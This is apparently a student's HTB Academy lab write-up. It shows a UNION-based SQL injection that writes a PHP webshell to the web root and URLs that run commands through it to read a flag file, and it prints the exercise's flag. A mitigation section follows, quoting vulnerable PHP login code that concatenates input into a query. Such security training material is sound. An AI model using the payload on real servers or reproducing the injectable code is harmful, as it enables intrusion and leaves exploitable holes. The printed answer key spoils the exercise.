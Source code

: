
HTB Academy Question
--------------------

Q: Find the flag by using a webshell.

A: d2b5b27ae688b6a0f1d21b7d3a0798cd99e814f8d65dfdba8ddd50e6e750e575

When you use the following query on the search bar 

SQL QUERY
```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
this will creat a file name shell.php on the web root of the server so you can visit it with the following URL
```
http://Server_Ip:Port/shell.php
```
if you do and they are exits so you can executes command with the parameter `?0=<Command>`
like this 

 
`http://Server_Ip:Port/shell.php?0=ls -al`

if the command works and you see the output on the screen so you have the command execution so to find the flag HTB give us hint that that are back one step so this means the flag.txt locate on /var/www/flag.txt so we can cat it with the following URL 

```
http://Server_Ip:Port/shell.php?0=cat /var/www/flag.txt
```
this will show us the flag



Mitigation SQL Injection
========================

We have learned about SQL injections, why they occur, and how we can exploit them. We should also learn how to avoid such vulnerabilities in our code and patch them when found. Let's look at some examples of how SQL Injection can be identified and mitigated.

Input Sanitization


Here's the snippet of the code from the authentication bypass section we discussed earlier:

#### PHP CODE
 
 ```
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  echo "Executing query: " . $query . "<br /><br />";

  if (!mysqli_query($conn ,$query))
  {
          die('Error: ' . mysqli_error($conn));
  }

  $result = mysqli_query($conn, $query);
  $row = mysqli_fetch_array($result);
<SNIP>
```